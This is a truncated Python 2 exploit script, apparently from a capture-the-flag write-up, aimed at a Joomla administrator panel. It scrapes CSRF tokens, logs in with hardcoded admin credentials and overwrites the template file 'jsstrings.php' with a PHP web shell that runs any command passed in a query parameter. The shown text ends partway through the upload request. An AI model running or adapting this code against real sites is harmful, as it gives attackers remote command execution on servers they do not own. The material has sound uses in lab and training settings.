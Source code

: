 ```py

# initGET
session = requests.session()
initlink = target + '/administrator/index.php'

initsend = session.get(initlink)
initresp = initsend.text

find_token = re.compile('[a-fA-F0-9]{32}')
found_token = re.findall(find_token, initresp)


if found_token:
  initToken = found_token[-1]
  print '[+] Found init token: ' + initToken

  print '[+] Preparing login request'
  data_login = {
        'username':'Floris',
        'passwd':'Curling2018!',
        'lang':'',
        'option':'com_login',
        'task':'login',
        'return':'aW5kZXgucGhw',
        initToken:'1'
  }
  data_link = initlink
  doLogin = session.post(data_link, data=data_login)
  loginResp = doLogin.text


  print '[+] At this stage we should be logged-in as an admin :)'

  uplink = target + '/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA%3D'
  filename = 'jsstrings.php'
  print '[+] File to change: ' + str(filename)

  getnewtoken = session.get(uplink)
  getresptoken = getnewtoken.text

  newToken = re.compile('[a-fA-F0-9]{32}')
  newFound = re.findall(newToken, getresptoken)


  if newFound:
    newOneTok = newFound[-1]
    print '[+] Grabbing new token from logged-in user: ' + newOneTok

    getjs = target+'/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA%3D'
    getjsreq = session.get(getjs)
    getjsresp = getjsreq.text

    # print getjsresp
    print '[+] Shellname: ' + filename
    shlink = target + '/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA='
    shdata_up = {
        'jform[source]':'<?php system($_GET["x"]);',
        'task':'template.apply',
        newOneTok:'1',
        'jform[extension_id]':'503',
```